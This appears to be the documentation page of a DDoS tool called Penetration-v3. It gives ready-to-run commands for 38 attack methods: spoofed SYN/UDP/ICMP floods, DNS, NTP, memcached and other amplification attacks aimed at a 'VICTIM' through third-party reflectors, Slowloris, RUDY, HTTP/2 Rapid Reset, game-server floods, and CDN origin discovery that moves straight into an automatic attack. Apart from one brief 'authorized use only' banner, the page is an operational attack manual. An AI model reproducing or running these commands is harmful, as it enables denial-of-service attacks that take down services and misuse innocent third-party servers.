# Attack & Recon Methods

Penetration-v3 ships with **38 methods** split into five categories. Each section below shows the internal pipeline as a Mermaid diagram, the required privileges, and a copy-paste CLI example. Every interactive TUI run prints an equivalent CLI command at the end — any diagram here can be launched in one line.

::: warning Authorized Use Only
Every method below is intended for systems you own or have explicit written permission to test.
:::

## Legend

| Symbol | Meaning |
|--------|---------|
| 🟢 | No special privileges |
| 🔴 | Root / `CAP_NET_RAW` required |
| ⚡ | Amplification / reflection vector |
| 🎮 | Game server protocol |
| 🌐 | L7 / HTTP family |

---

## L3/L4 Floods

### `udp` — UDP flood

🟢 Standard UDP datagram flood. Random payload, optional random destination port (`port:0`), and per-worker rate limiting.



```bash
./pentest-v3 protocol:udp ip:10.0.0.5 port:8080 pps:50000 size:1024 duration:30
```

### `tcp` — TCP SYN / handshake flood

🟢/`syn` 🔴 Standard TCP connect. With `mode:syn` the tool uses raw sockets to send SYN packets without completing the handshake; `mode:handshake` completes the full three-way handshake.



```bash
# SYN flood (root)
sudo ./pentest-v3 protocol:tcp ip:10.0.0.5 port:80 pps:100000 mode:syn

# Handshake flood
./pentest-v3 protocol:tcp ip:10.0.0.5 port:80 pps:5000 mode:handshake
```

### `icmp` — ICMP echo flood

🔴 Raw ICMP echo-request flood.



```bash
sudo ./pentest-v3 protocol:icmp ip:10.0.0.5 pps:50000
```

### `raw` — Custom raw IP packets

🔴 Sends user-defined raw IP packets. Combine with `pattern:custom` for specific byte sequences.


```bash
sudo ./pentest-v3 protocol:raw ip:10.0.0.5 pps:10000 pattern:custom
```

### `tcp-ack` / `tcp-rst` / `tcp-synack`

🔴 TCP flag-specific raw floods used to test state-table exhaustion and middlebox behavior.



```bash
sudo ./pentest-v3 protocol:tcp-ack ip:10.0.0.5 port:80 pps:100000
sudo ./pentest-v3 protocol:tcp-rst ip:10.0.0.5 port:80 pps:100000
sudo ./pentest-v3 protocol:tcp-synack ip:10.0.0.5 port:80 pps:100000
```

### `tcp-mb` — TCP middlebox flag flood

🔴 Sends unusual TCP flag combinations to probe and stress middleboxes / IDS paths.



```bash
sudo ./pentest-v3 protocol:tcp-mb ip:10.0.0.5 port:80 pps:100000
```

### `frag` — IP fragment flood

🔴 Sends fragmented IP packets to test reassembly limits and fragment-specific filters.


```bash
sudo ./pentest-v3 protocol:frag ip:10.0.0.5 port:80 pps:50000 size:1400
```

### `udp-max` — UDP turbo MAX PUSH

🟢 Pushes UDP sending as fast as the NIC and kernel will allow, bypassing the normal rate limiter.



```bash
./pentest-v3 protocol:udp-max ip:10.0.0.5 port:8080 workers:8
```

### `tcp-spoof` / `udp-spoof`

🔴 Full-checksum raw floods with forged source addresses. `cidr:random` rotates the source each packet.



```bash
sudo ./pentest-v3 protocol:tcp-spoof ip:10.0.0.5 port:80 pps:100000 cidr:random
sudo ./pentest-v3 protocol:udp-spoof ip:10.0.0.5 port:53 pps:100000 cidr:10.0.0.0/24
```

---

## Amplification & Reflection

All amplification methods are 🔴 root-only. They require a list of amplifier IPs via `resolvers:`.

### `dns` — DNS amplification

⚡ Sends small DNS queries with the victim's source IP to open resolvers, causing large responses to hit the victim.



```bash
sudo ./pentest-v3 protocol:dns ip:VICTIM resolvers:8.8.8.8,1.1.1.1 query:example.com. pps:10000
```

### `ntp` — NTP amplification

⚡ Sends `monlist` / mode-7 requests to NTP servers. Historical high-amplification vector.



```bash
sudo ./pentest-v3 protocol:ntp ip:VICTIM resolvers:1.2.3.4,5.6.7.8 pps:10000
```

### `mem` — Memcached amplification

⚡ Sends a small `stats` command to memcached UDP ports; responses can be hundreds of times larger.


```bash
sudo ./pentest-v3 protocol:mem ip:VICTIM resolvers:1.2.3.4,5.6.7.8 pps:10000
```

### `char` — Chargen amplification

⚡ Reflects off UDP chargen services.

```bash
sudo ./pentest-v3 protocol:char ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `ssdp` — SSDP amplification

⚡ Sends `M-SEARCH` requests to multicast-uncast SSDP reflectors.

```bash
sudo ./pentest-v3 protocol:ssdp ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `cldap` — CLDAP amplification

⚡ LDAP ping reflection over connectionless LDAP (UDP 389).

```bash
sudo ./pentest-v3 protocol:cldap ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `rdp` — RDP amplification

⚡ Targets the RDP UDP channel used in some Windows versions for reflection.

```bash
sudo ./pentest-v3 protocol:rdp ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `snmp` — SNMPv2c GetBulk amplification

⚡ Sends `GetBulk` requests with a large `max-repetitions` value to SNMP daemons.



```bash
sudo ./pentest-v3 protocol:snmp ip:VICTIM resolvers:1.2.3.4,5.6.7.8 pps:10000
```

### `wsdisc` — WS-Discovery amplification

⚡ UDP 3702 multicast reflection. Often found on IoT / Windows devices.

```bash
sudo ./pentest-v3 protocol:wsdisc ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `mdns` — mDNS amplification

⚡ UDP 5353 reflection via mDNS queries.

```bash
sudo ./pentest-v3 protocol:mdns ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `coap` — CoAP amplification

⚡ UDP 5683 reflection using CoAP GET requests.

```bash
sudo ./pentest-v3 protocol:coap ip:VICTIM resolvers:1.2.3.4,5.6.7.8
```

### `amp-all` — Multi-vector amplification

🔴⚡ Cycles through every amplification vector against the same victim/amplifiers.



```bash
sudo ./pentest-v3 protocol:amp-all ip:VICTIM resolvers:1.2.3.4,5.6.7.8 pps:50000
```

### `amp-scan` — Amplifier discovery

🟢 Scans a CIDR for hosts that respond to amplification probes. Does **not** attack; outputs a list of reflectors.


```bash
./pentest-v3 protocol:amp-scan ip:192.168.0.0/24
```

---

## L7 / HTTP Family

All L7 methods are 🟢 and respect `settings.conf` proxy rotation.

### `http` — HTTP GET/POST/HEAD flood

🌐 Fast HTTP request flood with optional bypass flags.



```bash
./pentest-v3 protocol:http ip:target.com port:80 pps:5000 rhex:true dyn:true gbotua:true cookie:true
```

### `https` — HTTPS GET flood

🌐 TLS-wrapped HTTP flood. Use `tls:true` with `protocol:http` or `protocol:https`.

```bash
./pentest-v3 protocol:http ip:target.com port:443 tls:true pps:5000
```

### `slowloris` — Slowloris connection exhaustion

🌐 Opens many HTTP connections and sends partial headers slowly to hold sockets open.



```bash
./pentest-v3 protocol:slowloris ip:target.com port:80 workers:500
```

### `killer` — Max connection saturation

🌐 Opens and holds as many connections as possible to exhaust the server's connection pool.

```bash
./pentest-v3 protocol:killer ip:target.com port:80 workers:2000
```

### `xmlrpc` — WordPress XML-RPC flood

🌐 Floods `xmlrpc.php` with `system.multicall` or `pingback.ping` payloads.

```bash
./pentest-v3 protocol:xmlrpc ip:target.com port:80 pps:5000
```

### `rudy` — R-U-Dead-Yet

🌐 Slow HTTP POST body upload. Sends a large `Content-Length` header then drips body bytes.

```bash
./pentest-v3 protocol:rudy ip:target.com port:80 workers:500
```

### `ws` — WebSocket flood

🌐 Upgrades to WebSocket and floods binary frames.

```bash
./pentest-v3 protocol:ws ip:target.com port:80 pps:10000
```

### `h2rapid` — HTTP/2 Rapid Reset

🌐 CVE-2023-44487 style stream abuse: opens HTTP/2 streams and immediately resets them.



```bash
./pentest-v3 protocol:h2rapid ip:target.com port:443 tls:true workers:100
```

### `ovh-bypass` — OVH UDP bypass with HTTP payload

🌐 Sends HTTP-shaped payloads over UDP to bypass certain UDP-only filters.

```bash
./pentest-v3 protocol:ovh-bypass ip:target.com port:80 pps:50000
```

---

## Game Server Methods

### `minecraft` — Minecraft Java MOTD flood

🎮 Queries / floods the Minecraft Java server list ping protocol.

```bash
./pentest-v3 protocol:minecraft ip:10.0.0.5 port:25565 pps:10000
```

### `mcpe` — Minecraft Bedrock / PE flood

🎮 Targets the Bedrock edition unconnected ping channel.

```bash
./pentest-v3 protocol:mcpe ip:10.0.0.5 port:19132 pps:10000
```

### `valve` — Valve / Source engine query flood

🎮 A2S_INFO / A2S_PLAYER query flood.

```bash
./pentest-v3 protocol:valve ip:10.0.0.5 port:27015 pps:10000
```

### `teamspeak` — TeamSpeak 3 flood

🎮 Sends TS3 connection init packets.

```bash
./pentest-v3 protocol:teamspeak ip:10.0.0.5 port:9987 pps:10000
```

---

## Reconnaissance

### `discover` — CDN origin IP discovery

🟢 Attempts to find the real origin IP behind a CDN by scanning common IP ranges, certificate transparency, DNS history heuristics, and direct connection probes.



```bash
./pentest-v3 protocol:discover ip:target.com
```

### `discover-attack` — Discover then auto-attack

🟢/🔴 Runs `discover`, then immediately attacks any found origins with the configured method.


```bash
./pentest-v3 protocol:discover-attack ip:target.com protocol:udp pps:10000 duration:60
```

---

## CLI Equivalent Quick Reference

After any interactive TUI run, Penetration-v3 prints the equivalent command:

```text
CLI Equivalent
./pentest-v3 protocol:udp ip:10.0.0.5 port:8080 pps:10000 workers:4 duration:60
```

Copy that line to skip the wizard entirely. Every key in the CLI reference supports this output.

## Method Matrix

| Method | Privilege | Category | Needs `resolvers:` | Uses Proxy |
|--------|-----------|----------|-------------------|------------|
| `udp` | 🟢 | L3/L4 | No | No |
| `tcp` | 🟢/🔴 | L3/L4 | No | No |
| `icmp` | 🔴 | L3/L4 | No | No |
| `raw` | 🔴 | L3/L4 | No | No |
| `tcp-ack` | 🔴 | L3/L4 | No | No |
| `tcp-rst` | 🔴 | L3/L4 | No | No |
| `tcp-synack` | 🔴 | L3/L4 | No | No |
| `tcp-mb` | 🔴 | L3/L4 | No | No |
| `frag` | 🔴 | L3/L4 | No | No |
| `udp-max` | 🟢 | L3/L4 | No | No |
| `tcp-spoof` | 🔴 | L3/L4 | No | No |
| `udp-spoof` | 🔴 | L3/L4 | No | No |
| `dns` | 🔴 | Amp | **Yes** | No |
| `ntp` | 🔴 | Amp | **Yes** | No |
| `mem` | 🔴 | Amp | **Yes** | No |
| `char` | 🔴 | Amp | **Yes** | No |
| `ssdp` | 🔴 | Amp | **Yes** | No |
| `cldap` | 🔴 | Amp | **Yes** | No |
| `rdp` | 🔴 | Amp | **Yes** | No |
| `snmp` | 🔴 | Amp | **Yes** | No |
| `wsdisc` | 🔴 | Amp | **Yes** | No |
| `mdns` | 🔴 | Amp | **Yes** | No |
| `coap` | 🔴 | Amp | **Yes** | No |
| `amp-all` | 🔴 | Amp | **Yes** | No |
| `amp-scan` | 🟢 | Recon | No | No |
| `http` | 🟢 | L7 | No | **Yes** |
| `https` | 🟢 | L7 | No | **Yes** |
| `slowloris` | 🟢 | L7 | No | **Yes** |
| `killer` | 🟢 | L7 | No | **Yes** |
| `xmlrpc` | 🟢 | L7 | No | **Yes** |
| `rudy` | 🟢 | L7 | No | **Yes** |
| `ws` | 🟢 | L7 | No | **Yes** |
| `h2rapid` | 🟢 | L7 | No | **Yes** |
| `ovh-bypass` | 🟢 | L7 | No | No |
| `minecraft` | 🟢 | Game | No | No |
| `mcpe` | 🟢 | Game | No | No |
| `valve` | 🟢 | Game | No | No |
| `teamspeak` | 🟢 | Game | No | No |
| `discover` | 🟢 | Recon | No | No |
| `discover-attack` | 🟢/🔴 | Recon/Attack | Varies | Varies |
